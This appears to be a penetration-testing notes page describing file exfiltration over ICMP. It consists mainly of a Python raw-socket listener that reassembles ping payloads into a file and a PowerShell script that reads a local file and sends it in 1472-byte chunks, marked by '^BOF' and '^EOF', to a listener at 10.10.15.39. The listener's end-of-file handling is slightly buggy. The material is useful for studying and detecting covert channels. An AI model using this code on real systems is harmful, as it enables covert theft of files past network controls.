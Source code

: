 # ICMP

## Extracting a File

By sending ping packets from our server, with the start marked by `^BOF` and the end marked by `EOF` , we can set up an icmplistener as below which decodes the data packets and then writes them to our file.  This isn't as universal as metasploit's listener, but it servers as a quick and dirty poc if all you're looking to extract is a single file.

```py
import socket

def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

A good option for recent Windows based systems is a modified [Powershell-ICMP-Sender](https://github.com/api0cradle/Powershell-ICMP).

```powershell
    $IPAddress = "10.10.15.39"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true
    #$PingOptions.Ttl = 10

    # Must be divided into 1472 chunks
    [int]$bufSize = 1472
    $inFile = "C:\Users\bob\Desktop\backfile"


    $stream = [System.IO.File]::OpenRead($inFile)
    $chunkNum = 0
    $TotalChunks = [math]::floor($stream.Length / 1472)
    $barr = New-Object byte[] $bufSize

    # Start of Transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^BOFbackup.zip")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null


    while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
        $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
        $ICMPClient.PingCompleted

        #Missing check if transfer is okay, added sleep.
        sleep 2
        #$ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
        Write-Output "Done with $chunkNum out of $TotalChunks"
        $chunkNum += 1
    }

    # End the transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^EOF")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
    Write-Output "File Transfered"
```



